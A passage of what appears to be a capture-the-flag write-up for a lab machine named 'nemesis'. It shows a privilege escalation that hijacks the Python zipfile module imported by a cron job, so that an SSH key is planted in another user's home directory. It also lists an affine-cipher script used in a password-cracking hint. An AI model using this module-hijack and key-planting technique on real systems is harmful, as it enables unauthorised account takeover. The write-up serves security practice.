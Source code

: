 
View the compressed file.

```console
thanos@nemesis:~$ ls /tmp/website.zip 
/tmp/website.zip
```

## Privilege Escalation
### Cron Job

As the **zipfile** module is being imported, the idea here is to hijack the **zipfile** module. Run the following commands to copy the **thanos** public key in to the **carlos** home directory, and thus log in via SSH.

```console
thanos@nemesis:~$ cp .ssh/authorized_keys /tmp
thanos@nemesis:~$ echo "import os" > zipfile.py
thanos@nemesis:~$ echo "os.system('mkdir ~/.ssh; cp /tmp/authorized_keys ~/.ssh')" >> zipfile.py 
```

Log in as user **carlos**.

```console
root@kali:~$ ssh -l carlos 172.16.71.129 -p 52846 -i id_rsa
...
carlos@nemesis:~$ ls
encrypt.py  flag2.txt  root.txt
```

The **root.txt* file contains information and hints about the Carlos password to decrypt it.

```console
carlos@nemesis:~$ cat root.txt 
The password for user Carlos has been encrypted using some algorithm and the code used to encrpyt the password is stored in "encrypt.py". You need to find your way to hack the encryption algorithm and get the password. The password format is "************FUN********"
```

The **encrypt.py** file is a python program that encrypts and decrypts a message using the affine cipher.

```console
carlos@nemesis:~$ cat encrypt.py 
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
    gcd = b
    return gcd, x, y

def modinv(a, m):
    gcd, x, y = egcd(a, m)
    if gcd != 1:
        return None
    else:
        return x % m

def affine_encrypt(text, key):
    return ''.join([ chr((( key[0]*(ord(t) - ord('A')) + key[1] ) % 26)
                  + ord('A')) for t in text.upper().replace(' ', '') ])

def affine_decrypt(cipher, key):
    return ''.join([ chr((( modinv(key[0], 26)*(ord(c) - ord('A') - key[1]))
                    % 26) + ord('A')) for c in cipher ])

```